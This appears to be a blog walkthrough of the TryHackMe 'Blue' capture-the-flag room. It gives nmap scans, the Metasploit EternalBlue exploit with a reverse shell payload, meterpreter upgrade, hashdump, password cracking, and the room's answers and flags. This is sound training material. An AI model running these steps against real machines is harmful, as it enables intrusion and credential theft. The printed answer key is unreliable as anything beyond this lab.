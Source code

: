 ```yaml
---
layout: post
title: Blue
categories: [CyberSecurity,CTF]
tags: [thm,easy,nmap,windows,metasploit,meterpreter,hashdump]
---
```


![Blue]({{ site.baseurl }}/assets/blue.gif){: .right }{: w="200" h="200" }

## Walkthrough
[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

**Difficulty level:** Easy

## Task 1: Recon
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.


### Questions

Q1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

> "no answer needed"

Q2. How many ports are open with a port number under 1000?

> "3"

Q3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

> "ms17-010"


### MyWalk

Usually go with this scan...

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
{: .nolineno }

But following the tip on Q1, about using some nmap scripting is very useful in this case:

```bash
nmap -sV -vv --script vuln 10.10.40.46
```
{: .nolineno }

We have now the answers to our questions above.

## Task 2: Gain Access

Exploit the machine and gain a foothold.

### Questions

Q1. Start Metasploit

> "No answer needed"

Q2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

> "exploit/windows/smb/ms17_010_eternalblue"

Q3. Show options and set the one required value. What is the name of this value? (All caps for submission)

> "RHOSTS"

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

```bash
set payload windows/x64/shell/reverse_tcp
```
{: .nolineno }

Q4. With that done, run the exploit!

> "No answer needed"

Q5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

> "No answer needed"

## Task 3: Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Questions

Q1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)  
Hint: "Google this: shell_to_meterpreter"

> "post/multi/manage/shell_to_meterpreter"

Q2. Select this (use MODULE_PATH). Show options, what option are we required to change?

> "SESSION"

Q3. Set the required option, you may need to list all of the sessions to find your target here.  
Hint: "sessions -l"

> "No answer needed"

Q4. Run! If this doesn't work, try completing the exploit from the previous task once more.  
Hint: "Command: run (or exploit)"

> "No answer needed"

Q5. Once the meterpreter shell conversion completes, select that session for use.  
Hint: "sessions SESSION_NUMBER"

> "No answer needed"

Q6. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

> "No answer needed"

Q7. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

> "No answer needed"

## Task 4: Cracking

Dump the non-default user's password and crack it!

### Questions

Q1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

> "Jon"

Q2. Copy this password hash to a file and research how to crack it. What is the cracked password?  
Hint: "This password can be found within the rockyou.txt wordlist"

> "alqfna22"

## Task 5: Find Flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

### Questions

Q1. Flag1? This flag can be found at the system root.  
Hint: "Can you C it?"

> "flag{access_the_machine}"

Q2. Flag2? This flag can be found at the location where passwords are stored within Windows.  
Hint: "I wish I wrote down where I kept my password. Luckily it's still stored here on Windows."

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

> "flag{sam_database_elevated_access}"

Q3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.  
Hint: "You'll need to have elevated privileges to access this flag."

> "flag{admin_documents_can_be_valuable}"
